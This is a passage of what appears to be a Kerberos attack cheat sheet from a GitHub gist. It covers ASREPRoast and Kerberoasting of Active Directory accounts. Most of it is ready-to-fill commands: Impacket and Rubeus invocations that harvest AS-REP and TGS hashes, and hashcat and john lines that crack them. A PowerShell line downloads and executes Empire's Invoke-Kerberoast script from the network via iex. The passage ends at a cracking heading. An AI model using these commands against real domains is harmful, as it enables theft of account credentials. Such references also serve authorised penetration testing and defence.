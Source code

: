 With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:

# check ASREPRoast for all domain users (credentials required)python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file># check ASREPRoast for a list of users (no credentials required)python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

With [Rubeus](https://github.com/GhostPack/Rubeus):

# check ASREPRoast for all users in current domain.\Rubeus.exe asreproast /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

Cracking with dictionary of passwords:

hashcat -m 18200 -a 0 <AS_REP_responses_file>  <passwords_file>john --wordlist=<passwords_file>  <AS_REP_responses_file>

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='23'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='451' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#kerberoasting)Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:

python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>

With [Rubeus](https://github.com/GhostPack/Rubeus):
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
With **Powershell**:

	iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
	Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>

Cracking with dictionary of passwords:
